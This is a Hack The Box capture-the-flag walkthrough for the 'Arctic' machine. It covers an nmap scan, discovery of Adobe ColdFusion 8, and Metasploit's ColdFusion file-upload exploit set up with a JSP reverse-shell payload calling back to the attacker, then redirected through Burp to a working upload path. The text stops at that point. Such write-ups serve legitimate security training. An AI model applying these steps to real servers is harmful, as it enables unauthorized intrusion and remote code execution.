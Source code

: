 ### Arctic HTB

### Difficulty: Easy

### IP Address = 10.10.10.11

Nmap Scan:

```
──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ nmap -sCV -A 10.10.10.11 -p135,8500 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 05:07 WAT
Nmap scan report for 10.10.10.11
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8500/tcp open  fmtp?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.17 seconds

```

On heading to the service on port 8500 we see its a web server and that its indexed 

Meaning we can list and navigate through files (directory listing)
![image](https://user-images.githubusercontent.com/113513376/213615555-41e799c1-6159-4afe-b1a9-04ad2a7383ef.png)


After poking around i got this url `http://10.10.10.11:8500/CFIDE/administrator/` 

Which when navigated to shows a login page
![image](https://user-images.githubusercontent.com/113513376/213615935-f3fa8b85-7df9-4595-9481-9d52274f5c76.png)

And from the image we see its version also in the logo `Adobe ColdFusion 8`

Now lets fire metasploit and search for possible exploits

```                                                                                                    
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ msfconsole
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: To save all commands executed since start up 
to a file, use the makerc command

[*] Starting persistent handler(s)...
msf6 > 
```

Then search `coldfusion 8 `

```
msf6 > search coldfusion 8

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/multi/http/coldfusion_ckeditor_file_upload  2018-09-11       excellent  No     Adobe ColdFusion CKEditor unrestricted file upload
   1  auxiliary/scanner/http/adobe_xml_inject                              normal     No     Adobe XML External Entity Injection
   2  exploit/windows/http/coldfusion_fckeditor           2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
   3  auxiliary/scanner/http/coldfusion_locale_traversal                   normal     No     ColdFusion Server Check
   4  auxiliary/gather/jetty_web_inf_disclosure           2021-07-15       normal     Yes    Jetty WEB-INF File Disclosure


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/gather/jetty_web_inf_disclosure
```

Checking out the exploit

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > use 0
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 10.10.10.11
rhosts => 10.10.10.11
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/IYTSIKNIN.jsp...
[-] Exploit aborted due to failure: unknown: Upload Failed...
[*] Exploit completed, but no session was created.
```

Ok it failed but why?

Its cause the path its trying to upload our payload doesn't exist

But since we have directory listing we can find the right path

After playing around for some minutes i found this path `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 

So instead of the exploit to attempt to upload the file in `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/` 

I can rather make it upload in the path i want

To do this i need to intercept the request in burp

So in the exploit i'll add this 

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
```

Now i'll try to re-run the exploit and intercept it in burp 
![image](https://user-images.githubusercontent.com/113513376/213618734-020e0c36-a378-4852-b1db-18c61553705e.png)

So I will just change the path to the right one which is `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 
![image](https://user-images.githubusercontent.com/113513376/213618807-a9c6d0f8-c06a-4961-8a97-e3588e09f0b8.png)

